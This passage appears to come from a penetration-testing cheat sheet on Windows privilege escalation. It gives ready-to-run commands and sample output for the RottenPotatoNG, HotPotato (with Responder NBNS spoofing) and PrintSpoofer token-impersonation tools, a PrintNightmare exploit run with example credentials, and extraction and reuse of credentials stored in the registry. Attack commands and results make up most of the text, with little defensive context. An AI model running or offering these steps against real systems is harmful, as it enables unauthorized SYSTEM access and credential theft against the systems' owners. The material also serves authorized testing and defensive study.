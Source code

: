     - **Execution**: Use `RottenPotatoNG`.
      ```bash
      RottenPotatoNG.exe -p cmd.exe
      ```
      **Example Output**:
      ```
      [+] SYSTEM token obtained
      cmd.exe started as SYSTEM
      ```
      - **Purpose**: Escalate to SYSTEM by exploiting NTLM reflection.
  - **HotPotato**:
    - **Technique**: Exploit NBNS spoofing and WPAD to trigger NTLM authentication, escalating to SYSTEM.
    - **Execution**: Use `HotPotato` with Responder.
      ```bash
      python Responder.py -I eth0
      HotPotato.exe -p cmd.exe
      ```
      **Example Output**:
      ```
      [+] NBNS spoofing successful
      [+] SYSTEM shell spawned
      ```
      - **Purpose**: Gain SYSTEM access via network-based privilege escalation.
  - **PrintSpoofer**:
    - **Technique**: Exploit SeImpersonatePrivilege on modern Windows versions (post-Potato patches).
    - **Execution**: Use `PrintSpoofer`.
      ```bash
      PrintSpoofer.exe -i -c "cmd.exe"
      ```
      **Example Output**:
      ```
      [+] SYSTEM shell obtained
      ```
      - **Purpose**: Gain SYSTEM privileges on patched systems.
- **Exploiting Known Vulnerabilities**:
  - **Technique**: Exploit unpatched vulnerabilities (e.g., PrintNightmare, CVE-2021-34527).
  - **Execution**: Use `PrintNightmare.py`.
    ```bash
    python3 PrintNightmare.py example.com/jdoe:P@ssw0rd123@192.168.1.10
    ```
    **Example Output**:
    ```
    [+] Exploit successful, SYSTEM shell obtained
    ```
    - **Purpose**: Gain SYSTEM privileges on a vulnerable system.
- **Stored Credentials**:
  - **Technique**: Extract credentials from configuration files or the registry.
  - **Execution**: Search for credentials in the registry.
    ```powershell
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    ```
    **Example Output**:
    ```
    ServiceCreds    REG_SZ    cmd.exe /c net use \\server\share /user:admin P@ssw0rd123
    ```
    - Use the credentials to authenticate:
      ```cmd
      net use \\server\share /user:admin P@ssw0rd123
      ```
    - **Purpose**: Escalate to a privileged account.
- **Scheduled Task Misconfigurations**:
  - **Technique**: Exploit tasks running as SYSTEM with writable executables.
  - **Execution**: List scheduled tasks.
